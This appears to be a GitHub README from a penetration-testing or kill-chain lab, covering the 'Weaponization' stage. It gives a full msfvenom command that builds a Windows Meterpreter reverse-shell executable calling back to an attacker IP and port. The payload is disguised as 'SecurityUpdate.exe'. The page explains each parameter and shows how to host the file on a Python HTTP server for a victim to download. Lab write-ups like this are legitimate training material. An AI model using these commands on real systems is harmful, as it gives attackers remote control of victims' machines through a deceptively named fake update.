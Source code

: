 # Weaponization

## Objective:
Create a malicious payload and a delivery mechanism for the attack.

## Action:
1. Generate Malicious Payload with MSFVenom: 

    Use **MSFVenom**, a tool for creating payloads, to generate a **malicious executable** that executes a **Meterpreter shell** (Metasploit's remote control payload). 

![image](https://github.com/user-attachments/assets/a7b94074-04e0-431c-b011-2252d538c3de)

### 🔹 Payload Generation Command:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.19.19.134 LPORT=4444 -f exe -o SecurityUpdate.exe
```

### 🔹 Explanation of the Command:
| Parameter | Explanation |
|-----------|-------------|
| `msfvenom` | A tool to generate payloads for penetration testing. |
| `-p windows/x64/meterpreter/reverse_tcp` | Creates a **64-bit reverse shell** for Windows. |
| `LHOST=10.19.19.134` | The attacker's IP address. |
| `LPORT=4444` | The attacker's listening port. |
| `-f exe` | Specifies the output format as a Windows **executable** (`.exe`). |
| `-o SecurityUpdate.exe` | Saves the generated payload as `SecurityUpdate.exe`. |

### 🔹 Checking the Payload Type:
Run the `file` command:
```bash
file SecurityUpdate.exe
```
#### Expected Output:
```
SecurityUpdate.exe: PE32+ executable (GUI) x86-64, for MS Windows, 3 sections
```
- ✅ **64-bit Windows Executable**
- ✅ **Designed for Graphical UI**
- ✅ **Portable Executable (PE) format**

2. Host the Payload Using a Python HTTP Server.

   Host the payload on a **Python HTTP server** running on port `8000`:

![image](https://github.com/user-attachments/assets/1c66b5c9-4f4c-4285-8f5a-d86b5a14c244)

### Command Explanation:

```
python3 -m http.server 8000
```

1. `python3` – Runs Python version 3.
2. `-m http.server` – Uses Python’s built-in web server module to start a temporary HTTP server.
3. `8000` – Specifies that the server should run on port 8000 (you can change this to any available port).

### Output of the Command:

  - `"Serving HTTP on 0.0.0.0 port 8000"` – The server is now running and accessible from any computer on the network.
  - `"http://0.0.0.0:8000/"` – You (or others on the network) can access it by typing http://your-ip:8000/ in a web browser.

### What This Means:

  - If you run this command in a folder, Python will share all the files in that folder over HTTP.
  - You can download files from this machine by visiting `http://your-ip:8000/` in a browser or using `wget` or `curl`.
  - Useful for quick file sharing or setting up a local web server for testing.
